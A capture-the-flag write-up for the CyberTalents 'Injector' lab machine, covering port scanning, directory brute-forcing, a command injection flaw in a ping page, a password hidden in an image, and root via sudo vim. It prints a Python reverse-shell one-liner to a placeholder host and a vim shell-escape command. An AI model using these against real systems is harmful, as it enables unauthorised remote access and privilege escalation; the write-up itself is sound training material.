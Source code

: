 ```yaml
---
title: "CyberTalents Injector Machine Writeup"
date: "2020-12-13"
layout: single
---
```

![logo](https://k.top4top.io/p_18081y31k1.png)

Injector machine is an easy box with some good ideas.

By the way, I couldn't solve the machine through the vpn because of some problems, but I solved the machine through it's public IP which is 3.127.234.70

# Methodology
* Enumeration
* Exploiting Command Injection Vulnerability
* Privilege Escalation

>so first i'll do Nmap scan to find out which services running in this machine

# []()Nmap Scan :
```python
# Nmap 7.91 scan initiated Sun Dec 13 16:14:30 2020 as: nmap -sV -sC -oN nmap 3.127.234.70
Nmap scan report for ec2-3-127-234-70.eu-central-1.compute.amazonaws.com (3.127.234.70)
Host is up (0.089s latency).
Not shown: 998 filtered ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 9c:34:1a:fd:db:03:c5:81:05:b0:64:cf:70:ad:63:3e (RSA)
|   256 04:f2:79:9a:04:fd:0e:78:ac:df:12:50:55:4d:a2:c6 (ECDSA)
|_  256 a8:67:8f:0c:e9:b1:3d:53:b4:9d:fe:fd:93:af:e6:5b (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
Well now we have 2 open ports which is :

* 22/tcp > ssh > OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux;protocol 2.0)
* 80/tcp > http > Apache httpd 2.4.29 ((Ubuntu))

> Now i'll check the webserver

![webserver](https://f.top4top.io/p_1808i2h201.png)

it's Apache2 ubuntu default page, nothing is interesting here so let's do directory bruteforcing using gobuster.

```python
┌─[kali@kali]─[~]
└──╼ $gobuster dir -u http://3.127.234.70/ -w /usr/share/dirb/wordlists/common.txt 
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://3.127.234.70/
[+] Threads:        10
[+] Wordlist:       /usr/share/dirb/wordlists/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/12/13 16:50:56 Starting gobuster
===============================================================
/.hta (Status: 403)
/.htaccess (Status: 403)
/.htpasswd (Status: 403)
/index.html (Status: 200)
/secret (Status: 301)
/server-status (Status: 403)
===============================================================
```
> we got /secret directory so let's open it!

![dir](https://c.top4top.io/p_1808t0ppg1.png)

nothing is interesting again so maybe let's do directory bruteforcing again!

```python
┌─[kali@kali]─[~]
└──╼ $gobuster dir -u http://3.127.234.70/secret/ -w /usr/share/dirb/wordlists/common.txt 
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://3.127.234.70/secret/
[+] Threads:        10
[+] Wordlist:       /usr/share/dirb/wordlists/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/12/13 17:43:25 Starting gobuster
===============================================================
/.hta (Status: 403)
/.htaccess (Status: 403)
/.htpasswd (Status: 403)
/company (Status: 301)
/admin.html (Status: 301)
/index.html (Status: 200)
/robots.txt (Status: 200)
/root (Status: 301)
/test (Status: 301)
/tools (Status: 301)
===============================================================
```
now we got /company, /admin.html, /root, /test and /tools!

> btw i checked company, admin.html, root, test directories and there's nothing intersting there.

then i opened tools directory and i found this

![dir](https://j.top4top.io/p_1808si31p1.png)

also i opened ping.php and i found this page!

![pingo](https://c.top4top.io/p_18087gump1.png)

> It's a pinging script vulnerable to Command Injection vulnerability

while it's a command injection vulnerability i manged to get a reverse shell and spwaning a tty shell using this one line python3 code

```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.x.x.x",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
```

and bingo! we to poped a shell and now we're in www-data.

![shell](https://k.top4top.io/p_1808cr6621.png)


# Privilege Escalation :

> while playing and searching i found an image called TrollFace.jpg in /var/www directory and i downloaded it to my machine using the netcat method 

![trollface](https://j.top4top.io/p_1808qvhkr1.png)

> i used strings and stegosuite and got nothing useful so i tried to extract it using steghide and i managed to get a password without passphrase!

![stegohelpsalot](https://d.top4top.io/p_1808cr6vd1.png)

and i came back to the machine to read /etc/passwd and i found a user called alex and i switched to this user using the password that we got from TrollFace image

![alex](https://c.top4top.io/p_1808ucm1c1.png)

>now i used linux-exploit-suggester to search for possible exploits but no exploits are available for this machine kernel version..

so i typed sudo -l to see if there's anything running with root permissions and i found vim working with root permissions so i used this command to pop a r00t shell
```bash
sudo vim -c ' : ! /bin/sh ' /usr/bin/vim
```
![vimonfire](https://l.top4top.io/p_1808zkh611.png)

and we got root flag.

![r00t!](https://j.top4top.io/p_1808volbp1.png)

for any questions dm me on facebook.

* cheers!
